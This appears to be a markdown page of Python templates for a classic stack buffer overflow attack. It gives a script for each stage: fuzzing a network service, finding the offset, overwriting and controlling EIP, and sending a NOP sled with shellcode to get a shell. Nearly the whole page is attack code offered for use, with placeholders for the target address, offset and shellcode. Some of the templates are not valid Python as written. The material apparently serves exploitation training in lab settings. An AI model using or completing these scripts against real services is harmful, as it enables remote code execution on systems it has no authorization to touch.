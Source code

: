 ### Python Templates for BOF                                                                                                        

There are different stages of BOF and we'll have different scripts for each stage:

### Spiking & Fuzzing
```Python
#!/usr/bin/python

import socket,sys
from time import sleep

buffer = "A" * 100
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21 

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send(buffer + "\r\n")
        s.close()
        sleep(1)
        buffer += "A" * 100
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit
```
### Finding Offset
```Python
#!/usr/bin/python

import sys,socket
from time import sleep

buffer = #Based on at what bytes you get to EIP, generate your pattern and insert it here, example "AAAA"
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send(buffer + "\r\n")
    s.close()
except:
    print("Debugger crashed at %s bytes" % str(len(buffer)))
    sys.exit
```
### Overwriting EIP
```Python
#!/usr/bin/python

import socket,sys

buffer = #Based on the offset bytes, place your pattern here 
buffer += "B" * 4
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
### Owning EIP
```Python
#!/usr/bin/python

import socket,sys

buffer = "A" * (Offset Value)
buffer += #Address of EIP
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
### Getting a Shell
```Python
#!/usr/bin/python

import socket

shellcode = #Place your shellcode here
buff = "A" * (Offset Value)
buff += #Address of EIP 
buff += "\x90" * (8/10/12/16/20...) 
buff += shellcode
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send(buff + "\r\n")
s.close()
```
[<= Go Back to Main Menu](index.md)
